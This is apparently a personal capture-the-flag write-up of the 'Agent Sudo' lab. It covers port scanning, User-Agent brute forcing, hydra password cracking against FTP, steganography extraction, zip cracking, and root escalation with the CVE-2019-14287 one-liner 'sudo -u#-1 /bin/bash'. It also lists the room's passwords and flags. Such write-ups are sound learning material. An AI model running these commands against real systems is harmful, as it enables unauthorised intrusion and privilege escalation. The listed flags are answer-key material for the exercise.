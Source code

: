 # Agent Sudo

## Task 2

### 2.1
```
sudo nmap -sS -sV -p- 10.10.170.253 -oN nmap.out
```

Nmap scan gives 3 open ports

### 2.2
Going to web server gives this page:

![alt text](images/agent_sudo/image.png)

User-agent is a HTTP header. Will find agent name there.

Will run gobuster as well to help find secret pages:

```
gobuster dir -u http://10.10.170.253:80/ -t 100 -w ~/wordlists/dirbuster/directory-list-2.3-medium.txt -o gb_root.out
```

Only gave 'server-status' as a directory

### 2.3

Inspecting the developer tools in Firefox > Network. Checking the GET request shows a User-Agent of:

Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Reading hint says to use 'User Agent Switcher' extension on Firefox.

Will use Burp Suite Intruder to change User-Agent header on request

![alt text](images/agent_sudo/image-1.png)

![alt text](images/agent_sudo/image-2.png)

C gives a redirect status code. The page is called 'agent_C_attention.php'

Appending PHP file to web URL gives the secret agent name 'Chris'

## Task 3

### 3.1

Will crack FTP password for 'chris' using hydra:

```
hydra -l chris -P ~/wordlists/rockyou.txt -vV -o hydra_ftp.out 10.10.170.253 ftp
```

Password is 'crystal'.

### 3.2

Will login to FTP as chris.

Will get all files in directory.

![alt text](images/agent_sudo/image-3.png)

Within 'To_agentJ.txt' there are two more agents: Agent J and Agent R.

Anonymous FTP login failed.

Will use binwalk to extract information from images.

```
binwalk cute-alien.jpg

binwalk cutie.png
```

cutie.png contains a zip file. Will extract file from image

```
binwalk -e cutie.png
```

Now have '_cutie.png.extracted' directory, which contains zlib compressed data and a password-protected zip file.

![alt text](images/agent_sudo/image-4.png)

Will crack password with John the Ripper:

```
zip2john 8702.zip > johnzip.out
john

john --wordlist=~/wordlists/rockyou.txt johnzip.out
```

Zip password is 'alien'

### 3.3

Extracting zip file gives 'To_agentR.txt', which has a string 'QXJlYTUx' which needs to be decoded. The result is 'Area51'.

### 3.4

Use password to extract text from image

```
steghide --extract -sf cute-alien.jpg
```

Created 'message.txt', which gives the name of Agent J, which is James.

### 3.5

The password is also inside 'message.txt', which is 'hackerrules!'

## Task 4

### 4.1

SSH into server as james with password hackerrules!

User flag reads:
b03d975e8c92a7c04146cfa7a5a313c7

### 4.2

Copy image from SSH server to Kali Linux machine

```
scp james@10.10.170.253:/home/james/Alien_autospy.jpg .
```

Searching on Google shows 'Roswell Alien Autopsy'.

## Task 5

### 5.1

Copy Linpeas script to target machine via SCP

```
scp linpeas.sh james@10.10.170.253:/home/james/
```

Check sudo version and sudo privileges for james:

![alt text](images/agent_sudo/image-5.png)

Searched ExploitDB for 'sudo 1.8' and found CVE-2019-14287. Exploit works for the same sudo privileges the james user has.

### 5.2

Can exploit using thee following command:

```
sudo -u#-1 /bin/bash
```

This exploit runs bash as the specified user. '-u#-1' returns 0, which is the root user's id.

We are now root.

![alt text](images/agent_sudo/image-6.png)

Go to /root/ and cat the root.txt file.

![alt text](images/agent_sudo/image-7.png)

Flag is:
b53a02f55b57d4439e3341834d70c062

### 5.3

Agent R is named DesKel

## Things learnt/to improve

- Steganography

- sudo -l and sudo -V for checking potential privilege escalation options

- User-Agent brute forcing with Burp Intruder